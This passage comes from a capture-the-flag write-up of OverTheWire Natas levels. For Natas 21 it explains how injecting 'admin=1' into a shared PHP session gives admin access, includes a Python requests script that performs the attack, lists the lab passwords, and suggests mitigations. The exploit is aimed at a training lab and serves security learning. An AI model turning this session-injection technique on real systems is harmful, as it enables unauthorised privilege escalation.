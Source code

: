 #### What sins are evidenced in this challenge
Sin #2, Sin #12

#### How could those sins be mitigated
Don't expose your custom session handlers
Validate user input
Use proper admin verification separate from session ID



---
### Natas 21

#### Credentials
Password: chG9fbe1Tq2eWVMgjYYD1MsfIvN461kJ

#### How you passed the challenge
1) Since there was a connected page, I figured this would be related to a CSRF attack
2) I looked at the source code of the second page and noticed that it would add every key pair to the session regardless of the whitelist in the page if ```submit``` was one of the keys in the POST request's data
3) I added ```submit=""``` and ```admin=1``` to the post request to the experimenter website
4) I set the ```PHPSESSID``` to the cookie from the post request and forwarded that cookie to the main natas21 webpage to get the password
```natas21,py```
```py

import requests

auth = ('natas21', 'IFekPyrQXftziDEsUr3x21sYuahypdgJ')

data = {"submit": "", "color": "green", "admin": "1"}

s = requests.Session()
s.auth = auth
req = s.post("http://natas21-experimenter.natas.labs.overthewire.org/index.php",
             data=data)
session_ID = req.cookies.get_dict()
print(session_ID)

req = s.get("http://natas21.natas.labs.overthewire.org/index.php",
            cookies=session_ID)

results = req.text.split()
print(results[results.index("Password:") + 1])
```

#### What sins are evidenced in this challenge
Sin #2, Sin #12

#### How could those sins be mitigated
Use anti forgery tokens or SameSite cookie attributes
Properly validate all information coming in (use whitelist everywhere information is set)

